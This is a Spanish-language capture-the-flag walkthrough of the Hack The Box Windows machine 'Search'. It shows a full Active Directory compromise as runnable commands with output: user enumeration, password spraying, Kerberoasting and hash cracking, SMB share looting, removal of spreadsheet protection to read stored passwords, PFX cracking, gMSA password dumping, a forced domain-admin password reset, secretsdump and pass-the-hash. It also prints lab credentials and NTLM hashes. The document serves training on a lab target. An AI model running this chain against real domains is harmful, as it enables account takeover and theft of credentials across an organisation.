## Box Info

| Name                  | Search      | 
| :-------------------- | ---------------: |
| Release Date          | 07 Mar, 2020     |
| OS                    | Windows          |
| Rated Difficulty      | Hard             |

- Ping 

```
ping -c 3 10.10.11.129
PING 10.10.11.129 (10.10.11.129) 56(84) bytes of data.
64 bytes from 10.10.11.129: icmp_seq=1 ttl=127 time=131 ms
64 bytes from 10.10.11.129: icmp_seq=2 ttl=127 time=132 ms
64 bytes from 10.10.11.129: icmp_seq=3 ttl=127 time=131 ms
```

## Recon

```zsh
sudo nmap -p- --open --min-rate 5000 -n -vv -Pn 10.10.11.129 -oG allPorts
nmap -sCV -p 53,80,88,135,139,389,443,445,464,593,636,3268,3269,8172,9389,49666,49675,49676,49707,49719 10.10.11.129 -oN targeted
```

```zsh
Nmap scan report for 10.10.11.129
Host is up (0.13s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Search &mdash; Just Testing IIS
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-12 14:13:27Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-12T14:14:58+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after:  2030-08-09T08:13:35
443/tcp   open  ssl/http      Microsoft IIS httpd 10.0
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after:  2030-08-09T08:13:35
| tls-alpn: 
|_  http/1.1
| http-methods: 
|_  Potentially risky methods: TRACE
|_ssl-date: 2025-07-12T14:14:58+00:00; 0s from scanner time.
|_http-title: Search &mdash; Just Testing IIS
|_http-server-header: Microsoft-IIS/10.0
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-12T14:14:58+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after:  2030-08-09T08:13:35
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after:  2030-08-09T08:13:35
|_ssl-date: 2025-07-12T14:14:58+00:00; 0s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after:  2030-08-09T08:13:35
|_ssl-date: 2025-07-12T14:14:58+00:00; 0s from scanner time.
8172/tcp  open  ssl/http      Microsoft IIS httpd 10.0
|_ssl-date: 2025-07-12T14:14:58+00:00; 0s from scanner time.
|_http-title: Site doesn't have a title.
| tls-alpn: 
|_  http/1.1
|_http-server-header: Microsoft-IIS/10.0
| ssl-cert: Subject: commonName=WMSvc-SHA2-RESEARCH
| Not valid before: 2020-04-07T09:05:25
|_Not valid after:  2030-04-05T09:05:25
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         Microsoft Windows RPC
49707/tcp open  msrpc         Microsoft Windows RPC
49719/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: RESEARCH; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-07-12T14:14:21
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

- Domain

```zsh
echo "10.10.11.129 search.htb research.search.htb" | sudo tee -a /etc/hosts
```

- Web


Encontramos informacion sobre los nombres del team (posiblemente encontremos algun nombre valido para el dominio)


```zsh
cat users| grep -v "Image\|Manager" | grep .
```

```
Keely Lyons
Dax Santiago
Sierra Frye
Kyla Stewart
Kaiara Spencer
Dave Simpson
Ben Thompson
Chris Stewart
Hope Sharp
```

Es importante observar con atención una de las imágenes que se encuentran en el slide show que van cambiando (CTF Like) 


Si hacemos zoom podemos ver lo que parece ser una credencial

```
hope.sharp:IsolationIsKey?
```

### Enumeration Directory

```zsh
gobuster dir -u http://10.10.11.129 -w /usr/share/wordlists/dirb/common.txt
```

```zsh
/certenroll           (Status: 301) [Size: 154] [--> http://10.10.11.129/certenroll/]
/certsrv              (Status: 401) [Size: 1293]
/css                  (Status: 301) [Size: 147] [--> http://10.10.11.129/css/]
/fonts                (Status: 301) [Size: 149] [--> http://10.10.11.129/fonts/]
/Images               (Status: 301) [Size: 150] [--> http://10.10.11.129/Images/]
/images               (Status: 301) [Size: 150] [--> http://10.10.11.129/images/]
/index.html           (Status: 200) [Size: 44982]
/js                   (Status: 301) [Size: 146] [--> http://10.10.11.129/js/]
/staff                (Status: 403) [Size: 1233]
```

Volviendo encontramos un directorio interesante `staff` a demas de ``certsrv`` y ``certenroll``

El directorio certsrv se refiere al servicio web de inscripción de certificados dentro de los Servicios de Certificados de Active Directory.



Pero para entrar al directorio certsrv ocupamos de credenciales.
### Create users

Tenemos suficientes usuarios y una credencial, pero en el AD es muy comun que el nombre de usuario tenga una estructura por ejemplo: {lastname}.{firstname} o {firstletter}.{lastname}.

Para tener distintos nombres con distintas estructuras usaremos un script para generarlo y de ese modo encontrar usuarios validos dentro del dominio.

https://github.com/urbanadventurer/username-anarchy

```zsh
./username-anarchy -i users > usernames.txt
```

### Enumerate Users

```zsh
nxc smb 10.10.11.129 -u usernames.txt -p '' --kerberos | tee ../output-kerb.txt
```

La estrucutra de los usernames es {firstname}.{lastname}

Algunos usuarios aparecen como "``FAILED``" a diferencia de los ``UNKNOW``, llaman la atencion que probablemente sean usuarios validos por tener una respuesta distinta.

```zsh
cat output-kerberos.txt | grep FAILED
cat output-kerberos.txt | grep KDC_ERR_PREAUTH_FAILED | cut -d '\' -f2 | cut -d ':' -f1
```

```zsh
SMB                      10.10.11.129    445    RESEARCH         [-] search.htb\keely.lyons: KDC_ERR_PREAUTH_FAILED 
SMB                      10.10.11.129    445    RESEARCH         [-] search.htb\dax.santiago: KDC_ERR_PREAUTH_FAILED 
SMB                      10.10.11.129    445    RESEARCH         [-] search.htb\sierra.frye: KDC_ERR_PREAUTH_FAILED
```

```
keely.lyons
dax.santiago
sierra.frye
hope.sharp
```

### Passwords Spraying

Realizamos un ataque `Password Spraying` que es probar una contraseña contra diferentes usuarios.

```zsh
nxc smb 10.10.11.129 -u validusers -p 'IsolationIsKey?' --continue-on-success
```

```zsh
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10 / Server 2019 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\keely.lyons:IsolationIsKey? STATUS_LOGON_FAILURE 
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\dax.santiago:IsolationIsKey? STATUS_LOGON_FAILURE 
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\sierra.frye:IsolationIsKey? STATUS_LOGON_FAILURE 
SMB         10.10.11.129    445    RESEARCH         [+] search.htb\hope.sharp:IsolationIsKey?
```

- Credentials

```
hope.sharp:IsolationIsKey?
```

## Auth as Edgar.Jacobs
### Kerberoasting Attack (TGS)

https://books.spartan-cybersec.com/cpad/vulnerabilidades-y-ataques-en-ad/kerberoasting/utilizando-impacket-getuserspns

```zsh
nxc ldap 10.10.11.129 -u 'hope.sharp' -p 'IsolationIsKey?' --kerberoasting kerb.txt
```

```
$krb5tgs$23$*web_svc$SEARCH.HTB$search.htb\web_svc*$650bc56c2e926ece29da421b1cd7fc3b$9c53a2140cdee3b6cf73b479d63e242fe822ea4ad61e2bf817773fa774c544b5eab8089{SNIP...}
```

- Method 2

```zsh
impacket-GetUserSPNs 'search.htb/hope.sharp:IsolationIsKey?' -dc-ip 10.10.11.129 -request
```



### Crack Hash

```zsh
john kerb.txt -w=/usr/share/wordlists/rockyou.txt
```

```dtd
web_svc:@3ONEmillionbaby
```

### Enumerate More Users

```zsh
rpcclient -U 'web_svc%@3ONEmillionbaby' 10.10.11.129 -c 'enumdomusers' | grep -oP '\[.*?\]' | grep -v "0x" | tr -d '[]'
```

```
{SNIP...}
```

### Password Spraying

```zsh
nxc smb 10.10.11.129 -u moreusers -p '@3ONEmillionbaby' --continue-on-success
```

```
SMB         10.10.11.129    445    RESEARCH         [+] search.htb\Edgar.Jacobs:@3ONEmillionbaby
```

Ahora tenemos una nueva credencial.

### BloodHound

En este punto con credenciales podemos ejecutar `bloodhound-python` contra el dominio.

```zsh
bloodhound-python -d search.htb -u web_svc -p '@3ONEmillionbaby' -ns 10.10.11.129 --zip -c All
```

## Shell as Sierra.Frye
### SmbMap

En lo que carga y subimos el archivo para vizualizar el bloodhound, con las nuevas credenciales de `edgar.jacobs` podemos listar los archivos compartidos por el servicio smb.

```zsh
smbmap -H 10.10.11.129 -u 'edgar.jacobs' -p '@3ONEmillionbaby' --depth 10
```



```zsh
smbmap -H 10.10.11.129 -u 'edgar.jacobs' -p '@3ONEmillionbaby' -r 'RedirectedFolders$' --depth 10
```

Podemos ver que el usuario `sierra.frye` tiene el archivo users.txt pero no tenemos permisos para vizualizarlo, quizas teniendo las credenciales de sierra.frye podamos vizualizarlo.



Para el caso de `edgar.jacobs` podemos descargar el archivo xlsx para poder ver su contenido.

```zsh
smbmap -H 10.10.11.129 -u 'edgar.jacobs' -p '@3ONEmillionbaby' -r 'RedirectedFolders$' --depth 10 --download 'RedirectedFolders$//edgar.jacobs/Desktop/Phishing_Attempt.xlsx'
```

### Phishing_Attempt.xlsx

`libreoffice phishing.xlsx`



En la parte de abajo vemos que tiene un candado, quiere decir que necesitamos de una contraseña para poder vizualizar esas contraseñas almacenadas. Existe una manera muy sencilla y es cambiar la extension de ``xlsx -> zip`` abrimos el zip solo para vizualizar su contenido y seguido editaremos el sheet2.xml que es el que tiene las contraseñas protegidas.


Abrimos con algun coder y borramos la parte de abajo que seria lo que esta protegiendo.



Guardamos y volvemos a colocar la extension xlsx y de esa manera burlamos la password (lol). Ahora podemos mirar las contraseñas.



Haremos una lista, guardaremos por separado los usuarios y las contraseñas para realizar una validacion de usuarios y contraseñas.

```zsh
nxc smb 10.10.11.129 -u usersxlsx -p passxlsx 
```

```dtd
Sierra.Frye:$$49=wide=STRAIGHT=jordan=28$$18
```

Validamos las credenciales.

```zsh
nxc smb 10.10.11.129 -u sierra.frye -p '$$49=wide=STRAIGHT=jordan=28$$18'
```

```
SMB         10.10.11.129    445    RESEARCH         [+] search.htb\sierra.frye:$$49=wide=STRAIGHT=jordan=28$$18 
```

### Access to Staff Web Page

Con las credenciales de sierra podemos descargar los archivos compartidos.

```zsh
smbmap -H 10.10.11.129 -u 'sierra.frye' -p '$$49=wide=STRAIGHT=jordan=28$$18' -r 'RedirectedFolders$' --depth 10
```

```zsh
smbmap -H 10.10.11.129 -u 'sierra.frye' -p '$$49=wide=STRAIGHT=jordan=28$$18' -r 'RedirectedFolders$' --depth 10 --download 'RedirectedFolders$//sierra.frye/Downloads/Backups/search-RESEARCH-CA.p12'
```

- staff.pfx
- search-RESEARCH-CA.p12

### Crack PFX

```zsh
pfx2john staff.pfx > hashpfx
```

```zsh
john hashpfx -w=/usr/share/wordlists/rockyou.txt
```



```dtd
misspissy
```

Con esta contraseña la podemos usar para importar nuestro certificado.



### PowerShell Web

```
https://10.10.11.129/
```


Nos logeamos como `sierra.frye`  y obtenemos una web shell



## Shell as Tristan.Davies
### ReadGMSAPassword

El usuario `sierra.frye` tiene un privilegio ``ReadGMSAPassword`` al usuario `BIR-ADFS-GMSA$`, en lo que enumeramos en bloodhound los anteriores usuarios no tenian nada interesante.



## gMSA

Dumpeamos.

```zsh
python3 gMSADumper.py -u sierra.frye -p '$$49=wide=STRAIGHT=jordan=28$$18' -d search.htb

Users or groups who can read password for BIR-ADFS-GMSA$:
 > ITSec
BIR-ADFS-GMSA$:::e1e9fd9e46d0d747e1595167eedcec0f
BIR-ADFS-GMSA$:aes256-cts-hmac-sha1-96:06e03fa99d7a99ee1e58d795dccc7065a08fe7629441e57ce463be2bc51acf38
BIR-ADFS-GMSA$:aes128-cts-hmac-sha1-96:dc4a4346f54c0df29313ff8a21151a42
```

- Method 2

```zsh
nxc ldap 10.10.11.129 -u sierra.frye -p '$$49=wide=STRAIGHT=jordan=28$$18' --gmsa
LDAP        10.10.11.129    389    RESEARCH         [*] Windows 10 / Server 2019 Build 17763 (name:RESEARCH) (domain:search.htb)
LDAPS       10.10.11.129    636    RESEARCH         [+] search.htb\sierra.frye:$$49=wide=STRAIGHT=jordan=28$$18 
LDAPS       10.10.11.129    636    RESEARCH         [*] Getting GMSA Passwords
LDAPS       10.10.11.129    636    RESEARCH         Account: BIR-ADFS-GMSA$       NTLM: e1e9fd9e46d0d747e1595167eedcec0f     PrincipalsAllowedToReadPassword: ITSec
```

#### GenericAll

La maquina ``BIR-ADFS-GMSA$`` tiene un privilegio `GenericAll` hacia la maquina `tristan.davies`



```zsh
bloodyAD --dc-ip "10.10.11.129" -d "search.htb" -u 'BIR-ADFS-GMSA$' -p ':e1e9fd9e46d0d747e1595167eedcec0f' set password tristan.davies 'P@ssword123!'
```


El usuario ``tristan.davies`` es parte del grupo `DOMAIN ADMINS` quiere decir que es un administrador del dominio.



Como el usuario tristan.davies es parte del grupo con mayor privilegio `Domain Admins` podemos dumpear los hashes de todos los usuarios.

```zsh
/usr/bin/impacket-secretsdump search.htb/tristan.davies:'P@ssword123!'@search.htb
```



- Validate Credentials

```zsh
nxc ldap 10.10.11.129 -u Administrator -H '5e3c0abbe0b4163c5612afe25c69ced6'
LDAP        10.10.11.129    389    RESEARCH         [*] Windows 10 / Server 2019 Build 17763 (name:RESEARCH) (domain:search.htb)
LDAP        10.10.11.129    389    RESEARCH         [+] search.htb\Administrator:5e3c0abbe0b4163c5612afe25c69ced6 (Pwn3d!)
```

```zsh
impacket-wmiexec tristan.davies@search.htb -hashes 'aad3b435b51404eeaad3b435b51404ee:c5f2d015f316018f6405522825689ffe'
```



